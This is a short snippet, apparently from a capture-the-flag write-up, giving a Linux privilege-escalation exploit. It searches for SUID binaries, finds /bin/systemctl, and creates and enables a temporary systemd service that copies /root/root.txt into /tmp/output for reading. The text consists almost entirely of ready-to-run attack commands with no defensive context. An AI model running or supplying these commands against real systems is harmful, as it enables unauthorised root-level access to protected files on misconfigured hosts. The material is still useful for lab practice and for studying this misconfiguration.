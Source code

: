 1) find . -perm /4000
/bin/systemctl
2)
- eop=$(mktemp).service
- echo '[Service]
- ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
- [Install]
- WantedBy=multi-user.target' > $eop
- /bin/systemctl link $eop
- /bin/systemctl enable --now $eop
- cat /tmp/output